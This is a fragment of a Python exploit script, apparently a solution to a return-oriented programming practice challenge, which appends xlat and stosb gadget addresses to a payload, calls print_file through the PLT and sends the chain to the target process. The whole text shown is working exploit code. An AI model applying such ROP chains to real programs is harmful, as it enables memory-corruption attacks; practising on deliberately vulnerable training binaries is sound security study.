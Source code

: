 ```python
	payload += p64(xlat)
	payload += p64(stosb)

payload += p64(rdi) + p64(write_addr)

payload += p64(elf.plt['print_file'])

io.sendlineafter(b'> ', payload)
io.interactive()
```
